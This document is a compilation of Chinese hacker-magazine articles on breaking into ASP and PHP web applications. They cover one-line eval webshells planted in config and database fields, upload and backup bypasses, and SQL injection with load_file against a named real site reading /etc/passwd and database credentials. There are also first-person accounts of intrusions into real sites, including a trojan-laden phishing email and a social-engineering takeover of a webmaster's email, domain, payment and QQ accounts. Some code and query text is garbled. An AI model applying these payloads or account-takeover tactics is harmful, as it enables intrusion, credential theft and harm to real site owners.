进入后台后，点左边的“系统管理”再点击“网站配置”，在右边的“网站名称”（也可以在其它处）后加入“`%><%Eval(Request(chr(112)))%><%`”，再点保存配置，如图24。

然后我们打开 `inc/config.asp` 文件，看到一句话马已写入到配置文件中了，如图25。

这时再打开一句话马的客户端，提交可得到一个小马，如图26。

- 2：后台上传漏洞，在 `Upfile_Photo.asp` 文件中部分代码如下：

```asp
if fileEXT="asp" or fileEXT="asa" or fileEXT="aspx" then
    EnableUpload=false
end if
if EnableUpload=false then
    '……该文件类型不允许上传……
end if
```

这样上传成功后，文件类型是“asp、asa、aspx”类的文件不能上传，默认只要在“网站配置”中的上传文件类型里增加上传“cer”等扩展名，则文件即可上传成功。如图27、28。

- 3：后台备份

直接在“产品管理”下的添加产品中上传 jpg 后缀的 asp 马，再到“系统管理”下的数据库备份，在“当前数据库路径”栏输入“d:”，或“当前数据库名称”输入某个数据库名称；不过系统会在名称后自动加上“.asa”的，如图29。

“确定”后提示“备份数据库成功...”，不过实际文件是没有 `.asa` 的，如图30。

直接访问备份文件，得到一个 webshell，如图31。

## 三、统计插件的漏洞（阿江统计系统）

这些系统的网站统计系统使用的是阿江统计系统 2.2 版本。当我们进入后台后，在前台已有的统计方法还是无法拿到网站的 webshell 的情况下，这可以利用阿江统计系统的漏洞来得到网站的 webshell。一般来说管理员只会去修改统计系统的默认数据库名，如图32。

下载后用得到的管理员密码进入统计系统的后台，我们点击“全局选项”，在“服务器时区”里插入 `:Eval(request(chr(112)))` 小马，点修改后，如图33、34。

再打开一句话马客户端，提交后可得到小马，如图35、36。

当然网页统计系统还有其它的注入点，这就不是今天要说的话题了，这里就不多讲了。

一套开源系统的代码存在着如此多的漏洞，不过这或许存在有其历史的渊源，回日心月犀情深的学习吧，水平有限，还请知道自己的文中不足之处，还请大家多多指点。

编辑点评：

本文对部分分析了阿P天空软件的众多漏洞，可谓漏洞百出了，可作为系统的学习参考资料。

## 网软漏洞连连看之网软购物豪华版

从本文你可以学到：

网软购物豪华版漏洞分析

看了 03 期小帅的文章中给我的建议（觉得非常的受教，这里先谢过），产生了全面分析网软各个系统的想法。通过找出各种不同的漏洞来练一下自己的技术，同时也把编程这一类在这方面学习为基本技术的朋友们一起分享一下个人的体会和经验！

## 一、Search.asp 的搜索注入

```asp
<!--#include file="include/nowshop.asp" -->
<%
call ssql()
' Pages=request("page")
Keywordstr=trim(request("keywords"))
' 获得要查keyword.
if keywords="" and request.cookies("buyok")("search")<>"" then response.redirect "search_more.asp?"
keyword=request.cookies("buyok")("search")
Set rs=Server.CreateObject("ADODB.RecordSet")
sql="select * from [on] where keywords like '%" & keyword & "%'"
if not (rs("id") and rs.bof) then
    rs("keydata")=now()
else
    rs.addnew
    rs("keywords")=keywords
    rs("keydata")=now()
end if
rs.update
rs.close
set rs=nothing

title="搜索..." ' (font color=red) % keywords %
sqlprod="select * from product where onlimit=true and [ProdName] like '%" & keyword & "%' or ProdDesc like '%" & keywords & "%' order by AddDate desc"
' 查询中带入恶意的变量
```

很多人对在地址栏里的注入可能比较茫然，比如用单引号“'”、“and 1=1”、“and 1=2”进行判断，看有漏洞就放入工具里进行测试。但是对于零基础去寻找程序进行手工注入也许就不那么熟悉了。其实这类也就是必须做好学习技术，只有夯实，而且知其所以然，才能更好地了解注入的原理。

这里的漏洞属于搜索型的注入，也是字符型的注入！我先来讲一下测试产生的原理：

`sqlprod="select * from product where online=true and [ProdName] like '%"&keywords&"%' or ProdDesc like '%"&keywords&"%' order by AddDate desc' and '%'=desc"`

当我们在搜索框内输入内容后就会传递给 `keyword`，而当获得变量过滤未做任何转义时，我们就可以执行查询语句，从而获得数据库中的数据。（要有条件注入，如 `'%`、`%' and 1=1` 等）如图1、图2。

- 1. 猜解  
  一般的表的名称无非是 `admin`、`adminuser`、`user`、`pass`、`password` 等。语句“`%' and 1=2 %'`” / “`%' and 0<>(select count(*) from admin) and '%'=1`”

- 2. 猜账号数目  
  如果遇到 0 返回正确页面，1 返回错误页面，说明账号数目就是 1 个。

- 3. 猜解字段名称  
  在 `len()` 语句里用我们想得到的字段名，猜字段名称如 `username/password` 等。

- 4. 猜解各个字段的长度  
  猜解长度要求是 >0，要直到返回正确页面为止。可用 `len(username)>0`、`len(password)>32` 等判断。

- 5. 猜解字符  
  用 `left(username,1)='a'`、`left(username,2)='ad'` 等猜解用户名的第一位、第二位。


## 卡西欧Z50赠送礼品%

一：`1=(select count(*) from admin where left(username,2)='admin' and '%'=...)`，最后猜解用户账号为 `admin`，如图4。就这样一次加一个字符这样猜，猜到这个字段的位数就算猜完了，猜解密码类似，如下语句，不再赘述。`卡西欧Z50赠送礼品%` and `1=(select count(*) from admin where left(password,2)='a') and '%'='`，猜解用户 md5 密码的第一位。最终猜解出来的密码是：`2123212297a57a5a7438940de4a801f2`，也就是 `admin`。


## 二、后台 cookies 欺骗

```asp
if request.cookies("buyok")("admin") then response.write "<meta http-equiv='refresh' content='0;URL=/admin.asp'>"
Set rs = conn.Execute("select * from manage where username='" & Request.cookies("buyok")("admin") & "'")
if not (rs.bof and rs.eof) then
  manage = rs("manage")
  if instr(manage, str) > 0 then
    response.write "<script language='javascript'>"
    response.write "alert('您没有此项操作的权限!')"
    response.write "location.href='quit.asp'"
    response.write "</script>"
  end if
else
  response.write "<script language='javascript'>"
  response.write "alert('登录失败')"
  response.write "location.href='quit.asp'"
  response.write "</script>"
end if
```

明显可以看出，这是一个 cookies 欺骗漏洞，只需满足两个条件：一是 cookies 不能为空，二是查询必须为真；如果在网站上找到管理员用户名，修改 cookies 值就可以了。另外在这里我们也可以使用 `or` 关系绕过，使其查询为真（这个和后台的 or 漏洞登录原理相同），不过在这里如果直接写入 `buyok=admin' --` 是不行的，我们必须把 `or'` 编码成 `%27%6F%72%27%27%27%27`，然后刷新页面即可登录后台！如图6。


## 三、跨站漏洞

关于跨站漏洞，用四个字符修改：惨不忍睹！基本上输入的地方都能进行跨站，如 `book_write.asp` 中的代码：

```asp
set rs=Server.CreateObject("ADODB.RecordSet")
sql="select * from book where online='1' order by Postdate desc"
rs.Open sql,conn,1,3
rs.Addnew
rs("username")=Request("username")
rs("comments")=Request("comments")
rs("useremail")=Request("useremail")
rs("face")=Request("face")
rs("pic")=Request("pic")
rs("qq")=Request("qq")
rs("url")=Request("url")
rs("online")=Request("online")
rs.Update
```

数据进入数据库根本没有进行任何的过滤，再看留言板数据显示的 `book.asp` 中的代码：

```asp
Username=r("UserName")
pic=r("pic")
face=r("face")
Comments=r("Comments")
bad=split(left(bad,1),)
for t=0 to ubound(bad)
    Comments=replace(Comments,bad(t),"")
next
Reply=r("Reply")
Usermail=r("Usermail")
url=r("url")
tmp=Rs.RecordCount-(page-1)*rs_pageSize-1
```

不过这里的留言需要管理员的审核，用处不大，其他地方不需要审核的多的是，大家自己去找找（我相信你写成这样，其他地方也就写得更厉害！）

## 四、后台 webshell

这个系统拿 webshell 的方法和 Sniperdog 在 07 年 08 月分析的“世纪前程数控全能管理系统”的方法一样，这里我再解释一下：这套系统的数据库为 ASP 后缀，但各有防下载代码，我在本地试着使用利用，但怎么也没有成功（悲剧又有了1）！其实还是有方法得到 webshell 的，进入后台数据库管理备份数据，然后点下载把数据库下载回来，如图7。


## 五、站点路径漏洞防范

- 1、Search.asp 的搜索注入

修改代码如下：

```asp
call aspcheck()
keywords=request("page")
if buyoktxtcheck(keywords)<keywords then
    response.write "<script language='javascript'>"
    response.write "alert('您填写的内容中含有非法字符，请检查后重新输入！')"
    response.write "location.href='javascript:history.go(-1)';"
    response.write "</script>"
    response.end
end if
```

buyoktxtcheck() 是程序中自带的检查危险字符串的函数！

- 2、后台 cookies 欺骗

使用 Session 验证，在 admin.asp 中成功登录后加入 session（"admin"=request.cookies("buyok")("admin")），在其它后台文件中写入：

```asp
if session("admin")="" and session("admin")<>request.cookies("buyok")("admin") then
    response.write "<script language='javascript'>"
    response.write "alert('请输入正确的管理员名称')"
    response.write "location.href='../admin.asp';"
    response.write "</script>"
    response.end
end if
```

## 全面解析站点数据库漏洞

- 3、跨站

同样使用 buyoktxtcheck 函数，即可避免！

## 六、写在最后

虽然这个系统的漏洞很多，也很致命，但是后台里都能更改后台文件夹名，如图 9。

而且登录时需输入后台文件夹名，如果你填写完了一个非常复杂的名字，我们也就无从下手了！这里我们可以在 baidu 上找到用途更广泛的系统的网站，然后利用工具来扫描后台地址，我们成功的机会会大大地增加！（小编注：也许可以修改目录名，那么具体改后的信息究竟有什么数据呢？答案留给你们去自行研究）

（作者自白：一个人的生命真的很辛苦，有时还会藏在一个小小的问题里，自己把其中的矛盾弄得一团糟！QQ：281052631）

编辑点评：

能写出这样的文章，说明你是在践踏“小菜”的队伍，已经走偏了。另外，自己动手研究，解决的问题会更加印象深刻，如果能像你这样把一篇文档的学习过程，用文字记录下来，分享给更多的人，你就能结识更多志同道合的朋友。


### 一、注入漏洞

时间的脚步迈入 2008 年，俗话说新年新气象，可是注入漏洞都出现了很多年了，大有不肯退出历史舞台的气势。这不，不小心又触发了注入点。但是本程序的注入点很奇特，如果你想拿到管理员权限的注入点，还需管理员登录后才可在此对该站点的内容进行查看。本人发现程序虽然不带危险函数，但程序在显示全个网站内容时，还是有不少有用的功能在用，必须先在登录页上把抓到的注册用户用了，仅此而已。下面举出一个例子：


## 二、上传漏洞

在继续看代码过程中发现有个上传文件 upload555.asp，发现代码中竟然这样写道：

```asp
<%
if file(filesize)>100 then
fileExt=lcase(right(file.filename,3))
if fileExt="asp" then
Response.Write "文件类型非法"
%>
```


## 三、数据库漏洞

程序只是简单做了后缀名判断，仅仅是判断了是否为 ASP 后缀，这当然是不够的，造成了上传漏洞。这里可以上传 cdx、aspx、cer、asa 文件，还可以上传 ASP+空格，当然也就不属于 ASP 了，所以漏洞利用起来还是比较强的。

有的读者会说，这样的上传漏洞还要拿到管理员权限才能拿到 webshell，但是在看代码中我找出该文件并没有经过后台的 session 验证，导致可以在浏览器中恶意上传，我上传个 ASA 木马很轻松地拿到 webshell，如图 3。


我在对它的研究中发现了，用上述的两个漏洞拿到 webshell 的概率实在不高，因为现在管理员安全意识越来越强，大多数后台是找不到的，上传漏洞更是少得可怜，所以单纯使用上传漏洞找到 webshell 其实有些不现实。数据审查应该是关键，其实像入侵渗透也是包含数据库利用的，主体还是数据库。

本程序中有三个数据库连接文件，分别是 view.asp、system.asp、news.asp 文件，我们利用这三个文件获得 webshell，这样会使攻击者更具很多的机会。首先看 view.asp 数据库连接文件 conn_view.asp，发现如下代码：

```asp
<%
dim constr,conn
constr = "Provider=Microsoft.Jet.OLEDB.4.0;Data Source="
constr = constr & Server.MapPath("system/mdb/system.asp")
set conn=Server.CreateObject("Adodb.Connection")
conn.Open constr
%>
```

上面代码中没有做容错处理，这又导致了数据库漏洞的产生，加入 On Error Resume Next 即可解决这个问题。最重要的是数据库中没有做字段过滤，如果我们可以插入一句话木马的话，这样就可得到 webshell。在注册会员页面中发现存在重大安全漏洞！文件 save_user.asp，代码如下：

```asp
<%
sql="select * from [user] where username='" & request("username") & "'"
set rs=server.createobject("adodb.recordset")
rs.open sql,conn,3,3
if rs.eof then
  rs.addnew
  rs("username")=request("username")
  rs("password")=request("password")
  rs("job")=request("job")
  rs("from")=request("from")
  rs("address")=request("address")
  rs("date")=now()
  rs("photo")=request("photo")
  rs("bz")="bz"
  rs.update
%>
```

代码中将客户端传来的参数直接保存到数据库中相应的字段中，导致可以插入一句话木马。注册表单中有一项“个人简介”，注册表单中发现图片 4。写入数据库后我以为这就拿到了 webshell，没有想到此时出现如图 5 的错误。


原因是在测试代码过程中发现自己有点粗心，忘记了一行代码，代码如下：

```asp
<%
bz=request("bz")
bz=replace(bz,"'","&nbsp;")
bz=replace(bz,chr(13)&chr(10),"<br>")
%>
```

这个 bz 变量就是上面数据库中对应的自我介绍内容，看到代码中用 “&nbsp;” 替换掉了空格，难怪写入一句话不成功。这样也好，轻轻只对一句话进行了限制，还可以在其他信息中写入一句话木马，写入成功后如图 6。


这样我们就可以轻松地从前台直接拿到 webshell。至于接下来的放大就省略了，news.asp 和 view.asp 文件都可以插入一句话木马而获得 webshell，一个很安全的网站程序就这样崩溃了。下面接下来我对网络的一次安全测试。

## 四、网络测试

写到这里手痒的习惯又犯了，于是来到网络战场——福州房产网。事先我探测了数据库路径是否存在，当看到打开浏览页面读取很慢的时候，我就知道数据库路径肯定没有问题。和本地测试一样，在评论中写入一句话木马，结果看图 7。


写入成功后用一句话木马客户端直接拿到了 webshell，如图 8。本想利用 webshell 提权，但时间和能力不足，也就此打住。综上所述，漏洞都是由于脚本程序中对过滤不严格造成的注入漏洞，以及配合数据库漏洞就可以攻破各种网站。建议对于数字型注入点还是使用 isnumeric 函数进行判断，这样可以确保万无一失。


编辑点评：这个系统存在的几个漏洞比较常见，利用起来也比较简单，主要是把不同地方的漏洞综合考虑，加以利用。

## 南方数据

### 看不见的注入

从本文可以学到：

- 程序内部 JS 调用的分析利用

南方数据最新已经是 v11 了，明显的注入已经很难发现，最近自己学着写新闻系统，于是就拿南方数据操作参考。从首页 index.asp 开始，发现这样一段代码：

```javascript
<script language='javascript' src='NewsType.asp?BigClass='>...</script>
```

是用 JS 调用 NewsType.asp 显示新闻链接的，为什么这样说呢？我们看看 NewsType.asp 里，这是 15 行左右的代码：

```text
ClassType=request("ClassType")
BigClass=request("BigClass")
SmallClass=request("SmallClass")
...
```

接受了 BigClass 参数，参数到哪去了呢？看看下面的代码，72 行左右：

```text
if BigClass<>'' then
  sql=select * from News where BigClassName='" & BigClass & "' order by AddDate desc
  set rs=conn.execute(sql)
end if
```

BigClass 放进查询语句执行了，接下来程序将查询出的结果变成链接并拼接起来显示在 index.asp 页面，这里就是注入的根源了。BigClass 没有过滤就放进去了。

由于 NewsType.asp 接收参数直接用的 request，所以我们用什么方法提交都可以，GET 和 POST 都可以，直接在地址栏上体现。我们试用 GET 吧。地址栏后面写上 NewsType.asp?BigClass=企业新闻' and 1=1 and '1'='1，结果一个语句变成了 select * from News where BigClassName='企业新闻' and 1=1 and '1'='1' order by AddDate desc。是不是每个都为 true，返回了很多记录？


如图 1。

再来看看 and 1=2 的是什么样？地址栏提交 NewsType.asp?BigClass=企业新闻' and 1='1 and '1'='1'，如图 2。

是不是跟上一个一样？其中的 and 1=2 语句我们换成让人看不见或返回为空，则结果会不一样。大家不要做 SQL 注入……（原文略）

编辑点评：

很久之前的一种小技巧，大家在分析漏洞的时候，还可以多想想很多这种 JS 调用、AJAX 等隐藏内容的请求/应答，很多时候，会有不错的收获。

从本文可以学到利用 HZHOST 虚拟主机系统提权的具体方法。

HZHOST（华众）网站主机系统是时下非常流行、安全稳定性公认最高的虚拟主机系统，不知怎么使用这个系统也可以快速地提权，下面几项我以前没想过来：

一次在网上查找注入时拿下了一个 WEBSHELL，看了一下基本信息，如图 1 所示。

## 利用 HZHOST 虚拟主机系统提权

得手后，权限还算宽松，可是没有装 PCANYWHERE、SERV-U、RADMIN、VNC。浏览你的虚拟主机系统里会有一个网站程序，发现这个服务器是一个 IDC 的虚拟主机服务器，管理平台在 221.*.*.30 的一个网段的一台服务器里，如图 2 所示。这个平台用的就是 HZHOST 系统了。

我到网上下载了一个破解软件，搭了个虚拟机模拟了一下情况：我开着 REGMON，发现安装时会在 HKEY_LOCAL_MACHINE\SOFTWARE\hzhost\appools 下添加一系列键值。现在来看，一一分析一下：

- [HKEY_LOCAL_MACHINE\SOFTWARE\hzhost\appools]：存储 APP 池信息。
- [HKEY_LOCAL_MACHINE\SOFTWARE\hzhost\config]：存储各项配置值。
- [HKEY_LOCAL_MACHINE\SOFTWARE\hzhost\config\settings]：这里存储有加密过的注册项，下载时读取。
- [HKEY_LOCAL_MACHINE\SOFTWARE\hzhost\config\settings\user]：存储用户信息。
- [HKEY_LOCAL_MACHINE\SOFTWARE\hzhost\config\settings\sysid]：存储系统 ID。
- [HKEY_LOCAL_MACHINE\SOFTWARE\hzhost\config\settings\mysqlpass]：存储 MYSQL 账户密码（加密后）。
- [HKEY_LOCAL_MACHINE\SOFTWARE\hzhost\config\settings\mssqlpass]：存储 MSSQL 账户密码（加密后）。
- [HKEY_LOCAL_MACHINE\SOFTWARE\hzhost\config\settings\sysdpst]：存储系统管理的变量值。
- [HKEY_LOCAL_MACHINE\SOFTWARE\hzhost\config\settings\sysdpst]：控制服务器访问的数据库连接串（未加密）。

重头戏来了。该软件安装后会自动在平台端新建一个 HZHOST 的数据库与 HZHOST 的用户，密码在注册表里是明文显示。HZHOST 用户默认是 DB_OWNER 权限，大家可以先看，备份到首页文件夹投入，不过功效小，不推荐。接下来来操作，如图 3、图 4 所示。

可以看出管理平台端的地址为 221.*.*.30，数据库用户名是 HZHOST，密码是 ZXZCXZXC，这样便进入 SQL 企业管理器上，如图 5 所示。注意图 5 中读取到的 HSTLST（hostlist 的意思）、MEMLST（memberslist 的意思）。

我在搭建的时候注意到，在软件的 WEB 后台里，主机的 FTP 密码看到的是明文，数据库里是密文。如此一来我们就可以有办法把加密的 MYSQL/MSSQL 密码还原了。具体操作步骤如下：

- 1. 在图 5 中右键 MEMLST——返回前一行——找到返回的 ADMIN 用户的那一行。把密码的 MD5 记下来（待会会转换回去的），换成一个你知道的 MD5 32 位，然后到 `http://网站网址/master` 登录后台，如图 6 所示。
- 2. 现在回到 WEBSHELL，把其它密码读出来。
- 3. 好了，我们从图 5 中找到一个主机，把加密后的密码记下来，把步骤 2 中得到的加密密码填上去，然后在 WEB 后台中的主机管理中点“网页操作密码”一项中的方框，如图 7 所示。这样一来，我们分别就还原了以前加密过的 mysqlpass 和 mssqlpass。
- 4. 我们然后把前面的痕迹清除，将更改过的内容重新提交，然后用 SQLEXEC 连上，OVER，如图 8 所示。

编辑点评：作者用了替换法还原了加密的 mssql 密码。不过既然后台能看到明文密码，说明 WEB 平台的 asp 文件源码里肯定有解密的写法，后期也可以解密，也不用如此麻烦了。不过他跳过 webshell 过滤机制，我想这是难点，估计是虚拟机平台无法还原的安全。


## PHP 注入：豪杰解霸首发

### 二、注入过程

很习惯性在 URL 后面加了一个单引号，暴出 web 的物理路径，于是开始“注射”。

- 1. **使用 order by 确定长度**

提交 `http://www.herosoft.com/download.php?fid=2`

order by 40/* 出错，`http://www.herosoft.com/download.php?fid=2 order by 20/*` 返回正确，也就是认定在 20-40 之间。高中学过二分法的她，就那样纠结着，提交 `http://www.herosoft.com/download.php?fid=2 order by 30/*` 返回错误。我们的长度缩小到了 20-30 之间，继续提交 `http://www.herosoft.com/download.php?fid=2 order by 25/*`，返回提示错误，那我们的长度应该在 20-25 之间，最后我确定了长度为 21（下文中的 2^0 就是 2 的 0 次）。


- 2. **联合查询**

我们得到长度之后就开始发信息了。想说的是找到了显示字段，而不是数据表中的字段。首先我们要考虑联合查询。提交了如下数据，返回如图 1 所示：

`http://www.herosoft.com/download.php?fid=2%20and%20and%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21/*`

接着我们把“7”、“10”分别用 `user()`、`database()` 来代替，提交

`http://www.herosoft.com/download.php?fid=2%20and%20and%20union%20select%201,2,3,4,5,6,7,user(),9,10,database(),12,13,14,15,16,17,18,19,20,21/*`

返回信息如图 2 所示。


- 3. **load_file 读文件源码**

从图 2 里我们可以看到数据库和 web 端是在一个服务器上，并且是 root 权限，很不错！既然是 root 权限的 web 端，我们就不需要去猜解表名获取信息了。服务器是 linux+apache 的，小菜我也不会提权，转储表也不会，不过能够访问 `load_file()` 是可以用的。我们先用 `download.php` 文件尝试出来，把它的路径加成字符的 16 进制，接着我们开始提交如下信息：

`http://www.herosoft.com/download.php?fid=2%20and%20and%20union%20select%201,2,3,4,5,6,7,version(),8,9,load_file(0x2F777777726F6F742F6865726F736F66742F646F776E6C6F61642E706870),11,12,13,14,15,16,17,18,19,20,21/*`

我们看返回的信息是什么呢，如图 3 所示。这个图 3 里的信息是通过 load_file 读出来的，大家在 IE 浏览器里的“查看”——“源代码”中就能找到。

我们换一个文件读取，和上面一步一样，我们就读取 `/etc/passwd` 的路径，OK，我们提交：

`http://www.herosoft.com/download.php?fid=2%20and%20and%20union%20select%201,2,3,4,5,6,7,8,9,load_file(0x2F6574632F706173737764),11,12,13,14,15,16,17,18,19,20,21/*`

返回信息如图 4 所示。


这个文件，小菜也没学过 Linux，啥意思呢？看信息这个漏洞难道是 SSH？也不可能啊。一个思路，既然是 root 的权限，我们能不能 SSH 呢？我打了下，结果如图 5 所示。可是咱们连不上去。Sniper 提醒我，既然有 root，于是再继续读文件。

download.php 文件中 include 了一个文件，是 `/admin/dblink.php`，看名字就知道这是数据库连接文件，提交：

`http://www.herosoft.com/download.php?fid=2%20and%20and%20union%20select%201,2,3,4,5,6,7,8,9,load_file(0x2F777777726F6F742F6865726F736F66742F61646D696E2F64626C696E6B2E706870),11,12,13,14,15,16,17,18,19,20,21/*`

这样，我们查看源代码看到什么了？如图 6 所示。


- 4. **写文件**

非常好！我们拿到 mysql 的 root 密码，接着就试着用 mysql 连接器连接。过去有人问了：root 不是本地才能连接的吗？嘿嘿，我 PHP 不会，但是它有关联权限不就知道了，反正成功连接上了，如图 7 所示。

好了，后面的就简单了，我们下一步试着能不能写上去，依次执行：

```sql
Create TABLE a (cmd text NOT NULL);
insert INTO a (cmd) VALUES ('<?eval $_POST[c]?>');
select cmd from a into outfile 'c:/...';
Drop TABLE IF EXISTS a;
```

结果发现执行到第 3 步的时候出错，那是为什么呢？原因可能有 2 个：

- 第 1，我们的权限不够，无权写（几率很大！）
- 第 2，文件已经存在。

没有权限怎么办呢？不怕！下面从后台尝试去吧！于是登录后台发现，我们不能上传 PHP 文件的，锁得很紧呀，无奈……我找 Sniper，结果原来是有读目录权限和实现上传功能的 PHP 代码，有这么一个：


代码意思是如果文件夹不存在的话，会自动创建一个属性是 0777 的文件夹，而 0777 属性的文件夹是可写的。根据这个思路我们找一个图片存放的文件夹就可以了，这里我到后台看了，有个新闻图片，地址标签是以日期命名的。其实大家遇到类似的问题也可以去 img 和 admin 这两个目录里去查找，因为 img 下放图的，admin 下有一些备份之类的操作。现在知道有写权限的上传目录了，自然就 upload 到了一个 webshell，如图 8 所示。


## 三、后记

最后看一下，web 权限设置也不是很死的，竟然在 admin 目录下有 phpMyAdmin 管理，让人吃惊的是：竟然密码为空。当然这个过程稍感叹下我们的 sniperg 同志对小宋的彻底指导。

编辑点评：

探秘的一个渗透进入过程，没什么好说的。文章里说到 /etc/passwd 的密码很像是，实为是 Linux 服务器密码一样是 shadow？要查看 /etc/shadow 关注密码的一部分，chage 里有可能的管理账号密码，进而有可能能 ssh 登录。其实很多都是后面根据 phpbbs 的话，复制用来做的 xml 的花哨工具，其中的 phpbb 进入会使你充满幻想。

## 看我来入侵《鹤岗黑客联盟》

4 月 1 日被朋友发现了好几次，正纳闷呢，上网搜一个工具来搜一个黑客站点，一打开我就晕了，鹤岗黑客联盟。因为我就是鹤岗的，鹤岗位于黑龙江……不要扯远，没想到这么小站也会有黑客联盟。打开一看是个新云的系统，记得我去年写过一个入侵黑客站的文章，用的也是新云的，直接在站点根目录搜索，flash/downfile.asp?url=hacklu/../../../../conn.asp，弹出对话框（图 1）。接下来下载数据库，用小小子打开看密码（图 2），里面是一个高级管理员和一个普通管理员的，放在 CMD5 里一试一个也没出来，想必 MD5 工具放在肉鸡里吧。默认的后台地址已经被去掉了，不急不急，密码还没有呢。


继续看看了，来到旁边的站点查了一下，挖了个旁注（图 3），一个个看吧。看了几个有一个 YXBBS 的，网上搜一下同样可以下载任意文件，下了 conn 回来，数据库是 ASP 的。试着注了一下，还没上。当看到 http://www.de-mao.cn/bbs 里面有 8.1 版本论坛，试用版默认密码成功登录前台，登录后台后，下载数据库成功，数据库程序有所升级——看一眼原来却是后台改错点了，最后照网上的方法拿 shell。可见到了最后致命一下，处理数据库的时候出现登录页面，一点一刷新开门的时候就会无法找到网页，后来见好友 CooLwX0 在线，和他又研究一下，搞笑的是他也在挖这个站旁注。正所谓图省事了，站程序用的是防注入的，一按提交带单引号的 IP 被软锁了，害得我找了 N 个代理。后来找到后台后就开搞了，源码上传为 ASP 的不行，后来上传 JPG、TXT 还是不行，看来说什么都白搭了，还好有个备份数据库，找到公告还有一些地方，搞了 N 个字，备份为 ASP 数据库，后来就成功了，拿到了一个 SHELL（图 4）。


根目录可读可写，C 盘程序目录和启动目录都可读，旁边的 C 盘没有被设置权限，装有 Serv-U 6.1，目录没设置权限，用 ASP 提权失败，WS 组件无用，上传 CMD5 执行命令失败。网站为 Access 数据库，来看我为什么连接密码。拿到 WEBSHELL 以后在里面看，发现有 1433，终端连了，不支持 PHP 和 ASPX。看了这个站的绝对路径为：d:\web\d\de-mao.cn\... 也就是该黑客联盟的绝对路径为：d:\web\h\hghack.vxv.cn，试了一下，正好就是没有权限的一个站，拿旁注（图 5）。


火山兄不是提供空间的地方吗？集华空间是他们提供的吗？我印象中空间都给 FTP、数据库一些密码记录在自己的网站里用，只要他们的账号能进去，那个密码就能看见了，旁注的空间也挺大。来到山东工程技校看了一下，发现需要用 Email 作为账号和密码才能登录，目标站里不是有信箱吗？而且得到的数据库信息里面也有这个信箱 luyunlong681@163.com，看来这应该是站长常用的信箱。我用这个信箱注册，提示已经有人注册了，看来没错了，用户名知道了，还差密码。163 的信箱不是有密码找回功能吗？直接试一下，第一步需要生日，正好站长留 QQ 了，查一下资料（如图 6），刘云龙的，6 月 4 日，那么应该是 1988 年 6 月 4 日，试着用这个生日一下，提示错误，哎，估计也不成。接下来开始用生日加一些常规组合猜密码，可惜都不对。


深夜 2 点了，休息吧，明天继续搞。第二天起来去肉鸡看了一下，扫的结果，已经有了一套，不过是站长在肉站里来过（图 7）！密码看大体了，把这条站长口令和随便的组合了一下，试着用 CMD5 加密，加密出来的结果和数据库里的 MD5 串正是。去百度搜一下这个信箱和他 QQ 的信息，也找到很有用的。想了想还得继续搞，接下来我也下载了它的内部源程序，我从网站找了一个 FTP 服务，用自写的脚本工具把木马捆在一起给 luyunlong681@163.com 发过去了，它的大概内容是：你好，我是火山互联网的管理员，您的 FTP 需要更新，请及时下载更新。然后用个 MM 的 QQ 号加了这个站长。


到了下午 1 点多的时候，这个站长才接我，就开始知道他爬了起来。我的目的很明确，就是想骗他生日。刚开始的时候他肯定很机灵，不愿配合，我就开始拖延起来，后来终于几乎是傍晚套出来了（图 8、图 9），他告诉我生日后这个就不要紧了，后来我几乎得到了他的所有网站最新地址信息。

我用 1988.4.20 试了一下，成功了，密码问题是一大堆！我也震了一大堆，如图 10 所示，成功改了他的信箱密码。没想到他的信箱里面全是重要的东西，域名管理密码、支付宝、QQ 密码保护，还有一些腾讯游戏号的密码，如图 11、图 12、图 13。


有这个信箱了，先去万网登录一下试试，用密码登录提示不对，我点回密码吧，直接就收到信箱了。登录上一看，哇啊！这身份资料都在，何等方便，不得不佩服万网改密码的安全措施也简单了，如图 14、图 15 所示。接下来我来放大招，我把密码和开户口一样，直接输入信箱就可以了，如图 16，这样就可以改了。


他的密码（图 17）。进去后找到了 FTP 修改密码的地方（图 18），成功修改了 FTP 密码。有的空间里 FTP 和数据库是以明文保存着，那样就更爽了。最后在 IE 访问一下，成功了，接下来是把首页的名字删了，ASP SHELL 进去（图 19、图 20）。提权就不需要了，因为之前已经登录服务器 WEBSHELL 了。

## 渗透 160XXXX 网站

我要入侵的站点地址是 http://160.xj163.cn/index.asp，但是初步扫点没发现注入、上传等常规漏洞，找了半天也没有下手的地方，于是决定先找旁站。先 ping 它的 IP 地址，然后打开 http://www.myipneighbors.com/ 输入 IP 查询，帮我终于找到这个站点 xj163.cn，存在注入点而且是 db 权限（图 1）。


我想当然了，可以看到目录，并且 web 与 sql 也在同一台服务器上的话，可以直接去拿个 webshell，然后跳转到 160 站点的目录，但是事情并不是尽如人意的，没法列出目录。想了很久就这样放弃了一个不可能的思路了。不过 mssql 的 db 权限也可以利用，动手检测了一下，不料发现了数据库名 admin，但是问题又来了，字段就只有 username、id、admin 和 usrid，就没再多想了，然后改成 trying user，先后调试了，终于成功了，随后对 sql 也有点感觉，就先把账号存了一份，已经得到了 webshell。


我拿到权限用户的前 2 个 md5 密码去 cmd5.cn 站破解都失败了，但是第 3 个被我破解出来了，然后就登录后台（图 3）。

后台右上角的地方，然后用明小子的注上传工具上传。上传是成功了，但是打开失败。我知道我的小马是全名伪装的不可执行，然而试了上传工具都没有成功，难道我 rp 就这么不行？


其实我还可以做很多的事情，比如说盗 QQ 等等，不过对那不感兴趣了。其实现在大多数站也都是虚拟主机，都会为用户提供在线管理什么的，我们在入侵的时候不一定局限在旁注和 C 段联系上面，盯住服务商一样也 OK。如何找出域名提供商和空间商方法其实很多，大家去思考吧。为了不引起麻烦，我会在投稿后几天之内联系站长把密码和漏洞修改，欢迎喜欢这方面的朋友来手册论坛和我交流，我的 ID 是神龙海子。

编辑点评：如果社工入侵国外网站的话，基本不适合发牛文，不过如果善于利用社工的话，可以找到很多有用的资料的。

好啊，我想起了 nc 提交（这里建议：nc 配合抓包上传）。再次抓包保存为 nc.txt，修改 nc.txt 里的上传路径，方法如图 4、图 5。因为在图 4 里的上传路径改为了“nc.asp”，所以数据这里是多了 7 个字节（有一个空格），在上面把路径 length 中就要加上 7 个字节，然后再用 16 进制编辑器把空格 16 进位 20 变成 00，表示截断，然后用 nc 提交，得到了图片。


这个 webshell 权限不足，为什么会出现这个情况呢，居然全都是传不了，反而说明没改过，难怪它只是个普通空间。综合看也可以的样子，不过设置了 160 这个站，我安装了 Serv-U，但是也没去设置权限和加上用户。那怎么办呢？我看到了 aspnet_client 这个目录，说明服务器支持 aspx，那么我传 aspx 马吧。（图 7）


